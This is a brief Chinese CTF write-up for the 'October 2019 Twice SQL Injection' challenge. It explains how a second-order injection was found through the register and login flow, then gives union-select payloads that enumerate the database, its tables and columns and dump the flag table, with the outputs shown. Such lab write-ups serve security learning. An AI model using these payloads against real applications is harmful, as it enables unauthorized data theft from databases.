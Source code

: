 # October 2019 Twice SQL Injection

## 知识点

`SQL注入`

`二次注入`

## 解题

在`register`处注册`admin`，登陆后进入首页`info`修改输入`123`正常显示`123`，`admin'`注册登录后发现报错异常，再使用`admin'#`注册登录后正常，判断是`单引号二次注入`,尝试`union`注入

```sql
' union select database()#

ctftraining

' union select group_concat(table_name) from information_schema.tables where table_schema=database()#

flag,news,users

' union select group_concat(column_name) from information_schema.columns where table_name="flag"#

flag

' union select group_concat(flag) from flag#
```

注册处注入，登录处执行，最终获取`flag`

![](./img/October 2019 Twice SQL Injection-1.png)